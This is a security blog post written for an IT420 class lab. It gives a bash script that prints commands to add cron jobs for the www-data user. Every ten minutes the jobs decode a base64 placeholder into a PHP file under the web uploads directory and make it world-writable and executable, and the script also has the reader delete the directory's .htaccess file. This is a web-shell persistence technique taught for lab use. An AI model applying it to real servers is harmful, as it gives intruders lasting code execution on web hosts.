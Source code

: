 ```yaml
---
title: Setup crontab for www-data
url: https://thepcn3rd.blogspot.com/2023/01/setup-crontab-for-www-data.html
source: thepcn3rd - Passion for Infosec
date: 2023-01-23
fetch_date: 2025-10-04T04:36:35.255871
---
```


# Setup crontab for www-data

# [thepcn3rd - Passion for Infosec](https://thepcn3rd.blogspot.com/)

Twitter: @lokut
This blog is for educational purposes only. The opinions expressed in this blog are my own and do not reflect the views of my employers.

## Saturday, January 21, 2023

### Setup crontab for www-data

For the IT420 class we are creating a crontab for www-data user using the following bash script.  This crontab will run every 10 minutes and create a php file that we need for the lab.

```
#!/bin/bash

printf "Commands you need to execute to schedule the creation of the phpcode\n"
printf "\n"

PHP='phpcode'
printf "Create php\n"
printf "PHP - $PHP\n\n"
B64=`echo 'phpcode' | base64 -w 0`
printf "Base64 encoded phpcode - $B64\n"
printf "\n"
printf "Pull the existing crontab\n"
printf "crontab -l > mycron\n\n"
printf "Append to the file mycron\n"
printf "echo \"*/10 * * * * echo $B64 | base64 -d > /var/www/html/uploads/attachments/attach.php\" >> mycron\n\n"
printf "Setup permissions on php file for execution\n"
printf "echo \"*/10 * * * * chmod 777 /var/www/html/uploads/attachments/attach.php\" >> mycron\n\n"
printf "Load the mycron as the current crontab for www-data\n"
printf "crontab mycron\n\n"
printf "Verify the crontab listing has your php\n"
printf "crontab -l\n\n"
printf "Notice a .htaccess file exists - Modify or Remove the file if it exists\n"
printf "rm /var/www/html/uploads/attachments/.htaccess\n\n"
```

at
[January 21, 2023](https://thepcn3rd.blogspot.com/2023/01/setup-crontab-for-www-data.html "permanent link")

[![](https://resources.blogblog.com/img/icon18_edit_allbkg.gif)](https://www.blogger.com/post-edit.g?blogID=450247628992736477&postID=7454626507394954282&from=pencil "Edit Post")

[Email This](https://www.blogger.com/share-post.g?blogID=450247628992736477&postID=7454626507394954282&target=email "Email This")[BlogThis!](https://www.blogger.com/share-post.g?blogID=450247628992736477&postID=7454626507394954282&target=blog "BlogThis!")[Share to X](https://www.blogger.com/share-post.g?blogID=450247628992736477&postID=7454626507394954282&target=twitter "Share to X")[Share to Facebook](https://www.blogger.com/share-post.g?blogID=450247628992736477&postID=7454626507394954282&target=facebook "Share to Facebook")[Share to Pinterest](https://www.blogger.com/share-post.g?blogID=450247628992736477&postID=7454626507394954282&target=pinterest "Share to Pinterest")

#### No comments:

#### Post a Comment

[Newer Post](https://thepcn3rd.blogspot.com/2023/01/test-authentication-from-linux-console.html "Newer Post")

[Older Post](https://thepcn3rd.blogspot.com/2023/01/brute-force-password-spray-gather-names.html "Older Post")
[Home](https://thepcn3rd.blogspot.com/)

Subscribe to:
[Post Comments (Atom)](https://thepcn3rd.blogspot.com/feeds/7454626507394954282/comments/default)

### [Test Authentication from Linux Console using python3 pexpect](https://thepcn3rd.blogspot.com/2023/01/test-authentication-from-linux-console.html)

Working with the IT420 lab, you will discover that we need to discover a vulnerable user account.  The following python3 script uses the pex...

* [![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhYibk9C-SKPTd_Dxp0JFHv9abAT_RTwNOMLheOB5Bw0O5fRzu_kWE-JSDpDn4gnP49i74gKT6UiOyUHPjFdntq335wsNs8M9B_NFms1725AYh2k7B2I3-sTsMxtqh45Uq0hiz24m8W8wI/w72-h72-p-k-no-nu/Selection_016.png)](https://thepcn3rd.blogspot.com/2015/04/owasp-broken-web-apps-getboo-walkthrough.html)

  [OWASP Broken Web Apps - GetBoo Walkthrough](https://thepcn3rd.blogspot.com/2015/04/owasp-broken-web-apps-getboo-walkthrough.html)

  Here is a quick walk through of GetBoo.  The first item that I found was you can harvest the usernames of the existing users that are regist...
* [![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgo8fg35w1-49ORqz0aLkEnSJvZZhEGpot4h552dq_D0KLtpKLs5AO_tthgUHnKoPV8G36Z840qPox06iz6jvFKum-Cvk4kcSiCJ9tdO9ZMSeHEmt5FcrV_sTK_wITnit5bm9aXKFkL4Aw/w72-h72-p-k-no-nu/Selection_025.png)](https://thepcn3rd.blogspot.com/2015/04/07-of-ip-addresses-continue-to-be.html)

  [0.7% or 311,026 IP Addresses found continue to be vulnerable to Heartbleed](https://thepcn3rd.blogspot.com/2015/04/07-of-ip-addresses-continue-to-be.html)

  As I was glancing through the logs of my honeypots I spent some time to look at the following logs.  In the past I have just overlooked them...
* [![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhhPqelQvMM6tetp3p0adCVe70liwYlI96lXKnVTJBicB9MawstZDwbvYBSAmURF3PBqgNG2Wa3BiGhiKnC0UGcHR1W93TzCdeaEBXqIWL1PvsQZu5noB-Q_NL-SQzoEM0xOAXZl4nPbgo/w72-h72-p-k-no-nu/Selection_006.png)](https://thepcn3rd.blogspot.com/2015/04/owasp-broken-web-apps-broken-wordpress.html)

  [OWASP Broken Web Apps - Broken Wordpress Walkthrough](https://thepcn3rd.blogspot.com/2015/04/owasp-broken-web-apps-broken-wordpress.html)

  I thought I would work through a few of these web applications provided by OWASP on their broken web applications VM. The first one I th...
* [What's in the honeypot? Frequency of SSH Login Attempts based on Country of Origin](https://thepcn3rd.blogspot.com/2015/04/whats-in-honeypot-frequency-of-ssh.html)

  Today looking at the logs of the honeypots, I became curious based on the whois of the IP Addresses attempting to login to SSH which country...
* [Using masscan with a configuration file](https://thepcn3rd.blogspot.com/2015/11/using-masscan-with-configuration-file.html)

  Recently I was doing some scanning with a tool that is available on github called masscan.  The tool allows you to configure a configuration...

## Search This Blog

|  |  |
| --- | --- |
|  |  |

## Blog Archive

* ▼
  [2023](https://thepcn3rd.blogspot.com/2023/)
  (3)
  + ▼
    [January](https://thepcn3rd.blogspot.com/2023/01/)
    (3)
    - [Test Authentication from Linux Console using pytho...](https://thepcn3rd.blogspot.com/2023/01/test-authentication-from-linux-console.html)
    - [Setup crontab for www-data](https://thepcn3rd.blogspot.com/2023/01/setup-crontab-for-www-data.html)
    - [Brute Force: Password Spray - Gather Names](https://thepcn3rd.blogspot.com/2023/01/brute-force-password-spray-gather-names.html)

* ►
  [2021](https://thepcn3rd.blogspot.com/2021/)
  (9)
  + ►
    [November](https://thepcn3rd.blogspot.com/2021/11/)
    (6)
  + ►
    [October](https://thepcn3rd.blogspot.com/2021/10/)
    (3)

* ►
  [2020](https://thepcn3rd.blogspot.com/2020/)
  (6)
  + ►
    [July](https://thepcn3rd.blogspot.com/2020/07/)
    (2)
  + ►
    [May](https://thepcn3rd.blogspot.com/2020/05/)
    (3)
  + ►
    [April](https://thepcn3rd.blogspot.com/2020/04/)
    (1)

* ►
  [2019](https://thepcn3rd.blogspot.com/2019/)
  (5)
  + ►
    [September](https://thepcn3rd.blogspot.com/2019/09/)
    (1)
  + ►
    [March](https://thepcn3rd.blogspot.com/2019/03/)
    (3)
  + ►
    [January](https://thepcn3rd.blogspot.com/2019/01/)
    (1)

* ►
  [2018](https://thepcn3rd.blogspot.com/2018/)
  (12)
  + ►
    [December](https://thepcn3rd.blogspot.com/2018/12/)
    (3)
  + ►
    [November](https://thepcn3rd.blogspot.com/2018/11/)
    (3)
  + ►
    [October](https://thepcn3rd.blogspot.com/2018/10/)
    (1)
  + ►
    [September](https://thepcn3rd.blogspot.com/2018/09/)
    (1)
  + ►
    [May](https://thepcn3rd.blogspot.com/2018/05/)
    (1)
  + ►
    [April](https://thepcn3rd.blogspot.com/2018/04/)
    (1)
  + ►
    [February](https://thepcn3rd.blogspot.com/2018/02/)
    (2)

* ►
  [2017](https://thepcn3rd.blogspot.com/2017/)
  (16)
  + ►
    [December](https://thepcn3rd.blogspot.com/2017/12/)
    (2)
  + ►
    [November](https://thepcn3rd.blogspot.com/2017/11/)
    (8)
  + ►
    [October](https://thepcn3rd.blogspot.com/2017/10/)
    (3)
  + ►
    [August](https://thepcn3rd.blogspot.com/2017/08/)
    (2)
  + ►
    [February](https://thepcn3rd.blogspot.com/2017/02/)
    (1)

* ►
  [2016](https://thepcn3rd.blogspot.com/2016/)
  (18)
  + ►
    [November](https://thepcn3rd.blogspot.com/2016/11/)
    (3)
  + ►
    [October](https://thepcn3rd.blogspot.com/2016/10/)
    ...